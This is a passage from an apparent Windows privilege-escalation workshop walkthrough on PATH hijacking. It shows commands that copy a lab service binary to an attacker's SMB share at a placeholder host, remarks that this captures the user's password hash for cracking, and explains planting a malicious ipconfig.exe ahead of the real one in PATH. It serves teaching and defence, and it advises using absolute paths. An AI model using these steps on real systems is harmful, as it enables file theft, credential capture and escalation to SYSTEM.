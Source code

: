 
So now we start looking into other kinds of hijacks.

Let's grab a copy of the executable:

````
PS C:\Program Files\Path Hijack> Copy-Item "C:\Program Files\Path Hijack\PathHijackService.exe" -Destination "C:\Users\user\Downloads\PathHijackService.exe"
````
Now let's transfer it to our attacking platform:

We setup an SMB share:

````
root@kali:~/Tools/impacket/examples# python smbserver.py Shared /root/LPEWorkshop/
Impacket v0.9.20 - Copyright 2019 SecureAuth Corporation


````

Then we transfer the file over:

````
Copy-Item "C:\Users\user\Downloads\PathHijackService.exe" -Destination "\\YOURIPHERE\Shared\PathHijackService.exe"

````
Coincidentally we also got the user hash, so we should try to crack that at some point.

Now we can start analyzing the service.

Let's use r2 to look at the service (I won't try to summarize using r2, that's homework for you)

We can eventually find that the service is starting "ipconfig.exe" on a timer.

[![r2image](https://github.com/J3rryBl4nks/LPEWalkthrough/blob/master/LPEWorkshopImages/r2.JPG)]

This means that if there is a PATH vulnerability we can inject our malicious ``ipconfig.exe`` into the PATH and get it executed instead of the legit binary.

Now: lots of developers will just blindly call Windows executables without specifying the full path to the binary. This breaks down when some application puts their location first in the PATH variable. This can happen because developers want to have an easier time calling their own binaries, but almost always leads to privilege escalation due to other applications on the host calling windows binaries without the full path.

ALWAYS USE ABSOLUTE PATHS

Let's check the PATH variable from our previous scripts:
````
=== System Environment Variables ===

  ComSpec                             : C:\Windows\system32\cmd.exe
  FP_NO_HOST_CHECK                    : NO
  NUMBER_OF_PROCESSORS                : 1
  OS                                  : Windows_NT
  Path                                : C:\DevTools;C:\Windows\system32;C:\Windows;C:\Windows\System32\Wbem;C:\Windows\System32\WindowsPowerShell\v1.0\;C:\Temp;C:\Temp
  PATHEXT                             : .COM;.EXE;.BAT;.CMD;.VBS;.VBE;.JS;.JSE;.WSF;.WSH;.MSC
  PROCESSOR_ARCHITECTURE              : x86
  PROCESSOR_IDENTIFIER                : x86 Family 6 Model 60 Stepping 3, GenuineIntel
  PROCESSOR_LEVEL                     : 6
  PROCESSOR_REVISION                  : 3c03
  PSModulePath                        : C:\Windows\system32\WindowsPowerShell\v1.0\Modules\
  TEMP                                : C:\Windows\TEMP
  TMP                                 : C:\Windows\TEMP
  USERNAME                            : SYSTEM
  windir                              : C:\Windows
  windows_tracing_flags               : 3
  windows_tracing_logfile             : C:\BVTBin\Tests\installpackage\csilogfile.log
````
